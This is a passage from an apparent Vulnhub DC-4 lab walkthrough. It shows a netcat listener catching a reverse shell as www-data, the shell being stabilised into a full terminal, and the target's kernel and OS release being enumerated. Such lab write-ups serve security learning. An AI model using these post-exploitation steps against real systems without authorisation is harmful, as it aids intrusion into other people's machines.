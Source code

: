 ```bash
www-data@dc-4:/usr/share/nginx/html$ ^Z
zsh: suspended  sudo nc -lvp 53
```

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-4]
└─$ stty raw -echo ; fg ; reset  
[1]  + continued  sudo nc -lvp 53
```
Hit the enter key on the keyboard.
```bash
www-data@dc-4:/usr/share/nginx/html$ stty columns 200 rows 200
stty columns 200 rows 200
www-data@dc-4:/usr/share/nginx/html$ 
```

Ready to rumble and gather more information!

```bash
www-data@dc-4:/usr/share/nginx/html$ uname -a
uname -a
Linux dc-4 4.9.0-3-686 #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19) i686 GNU/Linux
www-data@dc-4:/usr/share/nginx/html$ uname -mrs
uname -mrs
Linux 4.9.0-3-686 i686
www-data@dc-4:/usr/share/nginx/html$ cat /proc/version
cat /proc/version
Linux version 4.9.0-3-686 (debian-kernel@lists.debian.org) (gcc version 6.3.0 20170516 (Debian 6.3.0-18) ) #1 SMP Debian 4.9.30-2+deb9u5 (2017-09-19)
www-data@dc-4:/usr/share/nginx/html$ cat /etc/issue
cat /etc/issue
Debian GNU/Linux 9 \n \l

www-data@dc-4:/usr/share/nginx/html$ cat /etc/*-release
cat /etc/*-release
PRETTY_NAME="Debian GNU/Linux 9 (stretch)"
NAME="Debian GNU/Linux"
VERSION_ID="9"
VERSION="9 (stretch)"
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
www-data@dc-4:/usr/share/nginx/html$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 9.8 (stretch)
Release:        9.8
Codename:       stretch
www-data@dc-4:/usr/share/nginx/html$ 

```
